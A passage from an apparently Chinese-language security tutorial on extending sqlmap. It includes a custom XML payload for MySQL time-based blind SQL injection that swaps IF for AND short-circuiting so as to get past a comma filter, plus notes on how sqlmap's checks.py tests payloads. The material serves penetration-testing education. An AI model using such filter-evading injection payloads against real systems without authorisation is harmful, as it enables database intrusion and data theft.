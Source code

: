     * details - dbms_version - 数据库版本
    * details - os - 操作系统

# 0X02 编写自定义payload
为了证明自定义payload存在的必要性，我们考虑下面这样一种场景

![](https://lietolive-com-1255320280.cos.ap-shanghai.myqcloud.com/customSqlmap/10.png)

在这里我用分割','操作来尽量的还原出安全测试工作中可能出现的情况，只是这一步操作，我们来看看sqlmap的表现

![](https://lietolive-com-1255320280.cos.ap-shanghai.myqcloud.com/customSqlmap/11.png)

0ops,it's puzzled，其实结合之前介绍的payload中的介绍我们可以很容易的解释这样的一种情况，payload中的request和response是识别这个位置是否有问题的第一步判断，一般来说“and sleep”这种出现在request中并且成功延时后，在vector中含有if的字段会做进一步的测试，但是使用if就会用到","，所以注入就会出现如图的情况，ok，接下来就是我们的自定义payload上场的时候了

```xml
<root>
    <!-- Time-based boolean tests -->
    <test>
        <title>MySQL &gt;= 5.0.12 AND time-based blind withOut quote</title>
        <stype>5</stype>
        <level>1</level>
        <risk>1</risk>
        <clause>1,2,3,</clause>
        <where>1</where>
        <vector>AND [INFERENCE] AND SLEEP([SLEEPTIME])</vector>
        <request>
            <payload>AND SLEEP([SLEEPTIME])</payload>
        </request>
        <response>
            <time>[SLEEPTIME]</time>
        </response>
        <details>
            <dbms>MySQL</dbms>
            <dbms_version>&gt;= 5.0.12</dbms_version>
        </details>
    </test>
    <!-- End of time-based boolean tests - ORDER BY, GROUP BY clause -->
</root>
```
这里没有什么困难的地方，只是用AND逻辑的短路特性来替代IF语句，这里有一个问题，我们新增的payload应该怎融合到原来的payload中去，这里需要回顾下最前面payload的加载过程，lib/controller/checks.py文件中在生成payload后，进行了发包，并且进行了是否可注入的判断，我们看一下他的逻辑，这里的截图只是循环中时间注入相关的部分

![](https://lietolive-com-1255320280.cos.ap-shanghai.myqcloud.com/customSqlmap/12.png)

对应到console中打印的值为

![](https://lietolive-com-1255320280.cos.ap-shanghai.myqcloud.com/customSqlmap/13.png)

在console中成功打印后，程序的逻辑也就跳出了循环，来到了下面这个位置
